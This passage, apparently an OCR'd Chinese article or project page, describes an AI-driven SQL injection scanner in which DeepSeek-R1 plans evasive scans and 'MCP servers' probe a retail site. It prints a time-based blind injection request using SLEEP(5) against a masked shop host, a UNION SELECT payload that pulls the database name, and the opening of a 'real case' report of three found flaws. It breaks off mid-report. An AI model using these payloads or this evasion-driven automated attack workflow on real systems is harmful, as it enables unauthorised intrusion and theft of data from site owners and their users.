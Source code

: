     print(f"误报过滤率: {report['false_positive_filter_rate']*100}%")  
  
  
**攻击链解析：**  
1. **智能策略生成**  
DeepSeek-R1分析目标网站结构，生成定制化扫描策略：  
  
{  
  
  "scan_type": "time_based_blind",  
  
  "test_points": ["login.php", "search.php", "product/:id"],  
  
  "db_detection": ["MySQL", "PostgreSQL"],  
  
  "evasion_techniques": ["comment_obfuscation", "case_switching"]  
  
}  
  
1. **MCP服务器执行扫描**  
分布式节点发起精准测试：  
  
POST /search.php HTTP/1.1  
  
Host: mall.xxxx.com  
  
Content-Type: application/x-www-form-urlencoded  
  
X-MCP-Agent: DS-SQLi-001  
  
  
keyword=electronics' AND (SELECT 1 FROM (SELECT SLEEP(5))a)-- &deepseek=1  
  
1. **多维度漏洞验证**  
  
1. 时间延迟分析（>5秒响应）  
  
1. 错误消息模式识别  
  
1. 布尔逻辑验证  
  
1. 数据差异对比  
  
1. **智能POC生成**  
根据漏洞特征动态生成验证脚本：  
  
' UNION SELECT   
  
     NULL,   
  
     CONCAT('DB_NAME:', database()),   
  
     NULL,   
  
     NULL   
  
--   
  
**真实案例输出：**  
  
[!] 发现 3 个SQL注入漏洞  
  
  
漏洞 #1:  
  